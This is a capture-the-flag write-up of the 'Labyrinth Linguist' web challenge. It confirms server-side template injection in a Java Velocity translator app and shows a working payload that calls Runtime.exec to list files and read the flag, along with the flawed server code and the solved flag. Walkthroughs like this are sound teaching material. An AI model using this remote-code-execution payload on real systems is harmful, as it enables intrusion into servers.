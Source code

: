 ```yaml
---
name: Labyrinth Linguist (2024)
event: HackTheBox Cyber Apocalypse CTF 2024
category: Web
description: Writeup for Labyrinth Linguist (Web) - HackTheBox Cyber Apocalypse CTF (2024) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Labyrinth Linguist

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-vhl8ixthO4/0.jpg)](https://www.youtube.com/watch?v=-vhl8ixthO4?t=586 "HackTheBox Cyber Apocalypse '24: Labyrinth Linguist (web)")

## Description

> You and your faction find yourselves cornered in a refuge corridor inside a maze while being chased by a KORP mutant exterminator. While planning your next move you come across a translator device left by previous Fray competitors, it is used for translating english to voxalith, an ancient language spoken by the civilization that originally built the maze. It is known that voxalith was also spoken by the guardians of the maze that were once benign but then were turned against humans by a corrupting agent KORP devised. You need to reverse engineer the device in order to make contact with the mutant and claim your last chance to make it out alive.

## Solution

We can review source code but first let's check the site functionality. It's basic, we have a form field and a submit button and it says `Enter text to translate english to voxalith!`.

If we enter some text, it will send our data in a POST request, e.g. `text=hi` and display our text in a "fire" text font.

{% code overflow="wrap" %}
```html
<h2 class="fire">hi</h2>
```
{% endcode %}

The burp scanner detects several vulns, including `SSTI`, `XSS` and `Client-side desync`.

The XSS checks out, we can easily pop an alert but what is a vulnerability without impact? Let's stop wasting time with self-XSS and review the SSTI.

The advisory notes that the template engine appears to be `Velocity`. Here's the URL-decoded payload, which prints `v0oot695019a4423` to the screen.

{% code overflow="wrap" %}
```java
#set ($a=923*753) v0oot${a}a4423
```
{% endcode %}

Burp always complicates PoC's for some reason, here's a better visualisation.

{% code overflow="wrap" %}
```java
#set ($hack=420*23) ${hack}
```
{% endcode %}

When URL-encoded, it prints `9660`. So, we have confirmed the presence of server-side template injection. Next, we want to find some payloads that do more than basic mathematical calculations.

-   [Portswigger SSTI research](https://portswigger.net/research/server-side-template-injection)
-   [HackTricks Velocity SSTI](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection#velocity-java)
-   [PayloadsAllTheThings Velocity SSTI](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#java---velocity)
-   [Velocity SSTI blogpost](https://antgarsil.github.io/posts/velocity)
-   [Velocity user guide](https://velocity.apache.org/engine/1.7/user-guide.html)

None of the payloads I could find would work. I Tried `text=%23include("flag.txt")` and various directory traversals but it always always returned a 500 error; `unable to find resource`.

Eventually, I found a payload in a [gosecure SSTI workshop](https://gosecure.github.io/template-injection-workshop/#6) that worked.

{% code overflow="wrap" %}
```java
#set($x='')##
#set($rt=$x.class.forName('java.lang.Runtime'))##
#set($chr=$x.class.forName('java.lang.Character'))##
#set($str=$x.class.forName('java.lang.String'))##
#set($ex=$rt.getRuntime().exec('ls ../'))##
$ex.waitFor()
#set($out=$ex.getInputStream())##
#foreach($i in [1..$out.available()])$str.valueOf($chr.toChars($out.read()))#end
```
{% endcode %}

It was quite similar to the payloads in the resources listed earlier. The main difference is we didn't access the `$class` variable directly (instead accessing via a string).

Anyway, we URL-encode the payload list out the files in the directory. One is named `flag3b28509596.txt` so we can just update the payload to `cat` the flag.

Again, we solved the challenge without requiring access to server-side source code. Personally, I think this is a valuable exercise, especially if you want to improve your bug bounty skills since source code is typically unavailable. Actually, I did download the code and check it very quickly towards the beginning, e.g. it's nice to know there's a `flag.txt` that will be in the root directory.

{% code overflow="wrap" %}
```bash
mv /flag.txt /flag$(cat /dev/urandom | tr -cd "a-f0-9" | head -c 10).txt
```
{% endcode %}

I didn't study the source code though. If I did, I would of discovered the `Main.java` file imports `velocity` and inserts our unsanitised user input (`textString`) into the webpage, resulting in SSTI.

{% code overflow="wrap" %}
```java
template = readFileToString("/app/src/main/resources/templates/index.html", textString);
```
{% endcode %}

{% code overflow="wrap" %}
```java
StringReader reader = new StringReader(template);
org.apache.velocity.Template t = new org.apache.velocity.Template();
```
{% endcode %}

{% code overflow="wrap" %}
```java
t.setData(runtimeServices.parse(reader, "home"));
t.initDocument();
VelocityContext context = new VelocityContext();
context.put("name", "World");
StringWriter writer = new StringWriter();
t.merge(context, writer);
template = writer.toString();
```
{% endcode %}

Flag: `HTB{f13ry_t3mpl4t35_fr0m_th3_d3pth5!!}`
